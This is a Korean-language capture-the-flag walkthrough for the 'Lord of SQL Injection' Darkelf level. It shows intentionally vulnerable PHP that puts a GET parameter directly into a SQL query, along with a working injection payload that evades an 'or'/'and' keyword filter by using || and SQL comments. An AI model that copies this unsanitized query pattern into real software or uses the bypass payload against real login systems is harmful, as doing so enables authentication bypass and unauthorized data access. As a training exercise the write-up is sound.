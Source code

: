 # Lord of SQL Injection No.6 Darkelf

Darkelf 문제는 `or`, `and`를 사용하지 않고 문제 조건에 알맞는 `id`값을 넣어 문제를 해결할 수 있도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

```php
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
```

Darkelf 문제에서 핵심이 되는 조건이다.

`preg_match` 함수에서 `or`, `and`를 만나면 `HeHe`를 출력하며 문제 풀이에 실패하게 된다.

기존에 사용했던 `or`와 `and`를 필터링하기 때문에 이들을 사용하지 않고 문제를 해결해야 한다.

#### 문제 풀이 조건

```php
$query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
```

```php
if($result['id'] == 'admin') solve("darkelf");
```

`$_GET`방식으로 `pw`를 입력받는다.

입력받은 id값이 `admin`과 일치하면 문제 풀이에 성공하게 된다.

## Solution

```
http://los.eagle-jump.org/darkelf_****.php?pw=' || id='admin' -- ;
```

`$_GET` 방식으로 `pw`를 받는 부분은 `'`로 닫아준다.

기존에 사용했던 `or` 연산자는 `||`로 우회가 가능하기 때문에 `||`를 사용한다.

`and` 연산자는 `&&`로 우회가 가능하지만 URL에 직접 대입할 시에는 `&`가 문자열을 구분할 때 사용하기 때문에
URL Encoding을 한 상태인 `%26`을 삽입하여 사용해야 한다.

`||`로 `or`를 우회한 뒤에 `id='admin'`을 입력하여 문제 풀이 조건을 충족시킨 후 `--`를 이용한 주석 처리로 뒤의 절을 무력화시키면 문제 풀이에 성공하게 된다.